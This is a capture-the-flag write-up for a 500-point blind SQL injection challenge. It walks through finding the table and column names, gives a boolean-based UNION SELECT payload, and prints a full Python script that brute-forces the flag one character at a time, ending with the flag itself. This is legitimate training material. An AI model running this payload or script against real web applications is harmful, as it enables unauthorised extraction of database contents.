




# Why lie: Blind SQL injection (500 points)



Given the script shows that it will output only Good guess! and Nope if our sql statement query fetches any data or not. So we can use blind sql injection to get the flag by boolean based.



Using cyberfox with hackbar extension we can easily make a payload. The payload above was showed as an example from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md). 

Blind SQL injection process:
- Find the number of columns
- Find the table name
- Find the column name
- Analyze what we can do next

As we have already found the number of columns and the table name is `secret`.



Finding the column name needs a bit of guessing. I tried `message` but shows error so I tried `flag` and it worked.



Now we can use the column name to get the flag by bruteforcing it with output based "Good guess!" and "Nope".

The payload: `guess=1 UNION SELECT 1 FROM secret where flag like "UDCTF{\%";`

```python
import requests
import concurrent.futures

url = "https://bluehens-blindsql.chals.io/index.php?guess=1 UNION SELECT 1 FROM secret where flag like '" 

charset = "abcdefghijklmnopqrstuvwxyz0123456789_!@#$%^&*()-=+{}[]|;:'\",.<>?/`~"

flag = "UDCTF{"

def check_character(char):
    payload = f"{url}{flag}{char}%'"
    response = requests.get(payload)
    return "Good guess!" in response.text

with concurrent.futures.ThreadPoolExecutor() as executor:
    while True:
        futures = [executor.submit(check_character, char) for char in charset]
        concurrent.futures.wait(futures)
        
        found = False
        for char, future in zip(charset, futures):
            if future.result():
                flag += char
                found = True
                print(flag)
                break
        
        if not found or flag[-1] == "}":
            break

print("Flag:", flag)
```

**FLAG:** UDCTF{l1k3_a_b4t}